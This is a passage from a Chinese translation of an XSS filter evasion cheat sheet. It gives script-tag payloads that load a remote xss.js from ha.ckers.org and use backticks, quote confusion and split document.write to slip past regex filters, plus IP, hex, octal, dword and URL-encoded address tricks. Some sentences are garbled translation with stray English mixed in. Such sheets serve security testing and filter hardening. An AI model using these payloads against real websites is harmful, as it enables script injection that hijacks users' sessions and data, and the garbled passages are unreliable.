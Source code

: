 最后一个绕过"/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i"正则匹配的例子，通过重音符。（再以无法工作在firfox）

```
<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

这个xss例子押注域哪些正则并不去拼配一对引号，而是去发现任何引号后就立即结束参数字符串。

```
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

这xss仍然让我担心，因为他是几乎没有肯呢过去停止在没有阻止活动内容的情况下。

```
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
```

### URL 字符串绕过

这里假设 "http://www.google.com/" 这种在语法上是不被允许的。

**IP代替域名**

```
<A HREF="http://66.102.7.147/">XSS</A>
```

**URL 编码**

```
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```

**双字节编码** （注意：有其他的双字节编码变种。请参考下面混淆后的ip为更多信息）

```
<A HREF="http://1113982867/">XSS</A>
```

**十六进制编码** The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit,因为十六进制数实在0-f之间，因此第三位开头的0可以被省略掉。

```
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
```

**八进制编码** Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc...:

```
<A HREF="http://0102.0146.0007.00000223/">XSS</A>
```

**混合编码** 让我们混合基本编码并且插入一个tab和换行符。为什么浏览器允许这样，我是不知道。但是它是可以工作当它们被包含在引号之间。

```
<A HREF="h
tt  p://6   6.000146.0x7.147/">XSS</A>
```

**协议绕过** “//”代替“http:// ” 可以节省更多字符。这是非常有用的当输入空间是有限的时候。两个字符可能解决大问题。也是容易绕过像"(ht|f)tp(s)?://" 这样的正则过滤。（感谢 Ozh 提出这部分）。你也可以改变//" 为 "\"。你需要保持斜杠在适当的地方。否则可能会被当作一个相对路径的url。
